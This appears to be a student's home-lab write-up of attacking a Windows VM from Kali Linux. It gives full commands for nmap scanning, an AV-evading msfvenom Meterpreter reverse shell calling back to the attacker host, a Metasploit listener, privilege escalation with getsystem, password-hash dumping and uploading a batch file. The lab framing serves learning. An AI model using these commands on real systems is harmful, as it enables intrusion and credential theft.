 ```yaml
---
title: "System Hacking"
layout: post
---
```

Summary:
  1. Extracting Administrative password hashes
  2. Hiding files and extracting hidden files
  3. Creating a payload to leverage Windows exploit
  4. Privilege escalation
  5. Modifying the file system and uploading files

To begin this exercise I logged into the root account of a Kali Linux virtual machine and logged into an administrator account of a Windows OS virtual machine which will be the target. 

Once both VMs are running, I ensure that both VMs are on the same network by checking the ethernet connections. Then, I launched the nmap application which appeared as a command line and began scanning for targets with the command:

  - nmap -sP 192.168.0.0/24

Once I have determined the target IP address, I then attempted to enumerate the target to learn which services are running and which ports are open by performing a SYN scan with the command:

  - nmap -sSV -O 192.168.0.20

This resulted in five ports being opened, services identified, service info, and the versions. These were:

  PORT    STATE  SERVICE         VERSION
135/tcp   open   msrpc           Microsoft Windows RPC
139/tcp   open   netbios-ssn     Microsoft Windows netbios-ssn
445/tcp   open   microsoft-ds?  
2179/tcp  open   vmrdp?
3389/tcp  open   ms-wbt-server   Micosoft Terminal Services

Service Info: OS: Windows; CPE: cpe:/o: microsoft:windows

Next, I continued by launching MetaSploit by entering the command:

  - sudo msfconsole

and searched for a specific exploit by entering the command:

  - search windows/meterpreter/reverse_tcp

and set the payload by entering the command:

  - set payload windows/meterpreter/reverse_tcp

Next, I began to configure a web server and prepare the exploit. To start I entered the commands:

  - systemctl start apache2
  - systemctl status apache2

This started the service and showed me that it is active and running.

Then, by default the apache server will not allow access to the resources located at /var/www/html so I removed this file by entering:

  - rm /var/www/html/index.html

Before running the exploit, I realized that I needed to create a directory to store the malicious file. To do this I entered the command:

  - mkdir /var/www/html/exercise

Next, I began creating the payload for the target machine by entering the command:

  - msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' LHOST=192.168.0.2 LPORT=4444 -f exe > /var/www/html/exercise/exploit.exe

This command indicates what payload we will use, holds an encoder I used to help prevent antivirus from detecting the program, removes bad characters from the payload to help evade intrusion detection systems, and the IP address of the Kali system and the port that I listened on. 

![image](https://github.com/Devin10Dahlberg/devin10dahlberg.github.io/assets/149525072/a79e3e39-ef78-4fe0-b917-d16f79c50142)

Next, I switched to the Windows VM and downloaded the file by entering the provided IP address into the address bar and opening the previously created exercise file and downloading exploit.exe.

Once the download is complete I switched back to the Kali Linux VM so I could start the listener. I once again launched MetaSploit with sudo msfconsole and entered the command:

  - use exploit/multi/handler

Then I set the payload with the command:

  - set payload windows/meterpreter/reverse_tcp

and set the LHOST by entering the command:

  - set LHOST 192.168.0.2

Now that the listener is set up, I started to listen by entering the command: 

  - exploit -j -z

Once the exploit is completed, I switched back to the Windows VM and executed the exploit.exe file.

Switching back to the Kali VM, I could see the changes as the Meterpreter session is now open and I could see the IP addresses of both systems.

I began by entering the command:

  - sysinfo

and I was able to gather information such as the NetBIOS name, the OS version, the Domain, and the number of Logged on Users.

I then ran the command:

 - ifconfig

which allowed me to see the MAC address, and the IPv4 and IPv6 addresses along with their subnets.

<img width="260" alt="image" src="https://github.com/Devin10Dahlberg/devin10dahlberg.github.io/assets/149525072/d33e4489-6102-428f-83e2-38d60a9a98be">

I then attempted to find out whose user account I was using by entering the commands:

  - getuid
  - getsystem
  - getuid

which allowed me to use the SYSTEM account.

From here I entered the command:

  - run hashdump

which provided me with the password hashes.

<img width="410" alt="image" src="https://github.com/Devin10Dahlberg/devin10dahlberg.github.io/assets/149525072/71e3f48c-91c4-40b0-997f-546b01dc5b0f">

At this point, I am able to create, upload, and execute a bash file to the target machine.

To begin, I entered the command:

  - touch hacked.cmd
  - vim hacked.cmd

I then modified the created file by entering:

@echo off
dir /s c:\users\*.*
echo YOU HAVE BEEN HACKED
pause

This displays the phrase YOU HAVE BEEN HACKED in the command prompt without the window closing automatically on the target system.

I then left the note to the victim system by entering the command:

  - upload hacked.cmd C:\\users\\administrator\\downloads

which succesfully uploaded the file to the target system.

I then executed the batch file by entering the command:

  - execute -f hacked.cmd

When I switched back to the Window OS the file was received and the message appeared when a command prompt was opened showing a list of files from the path I specified. 








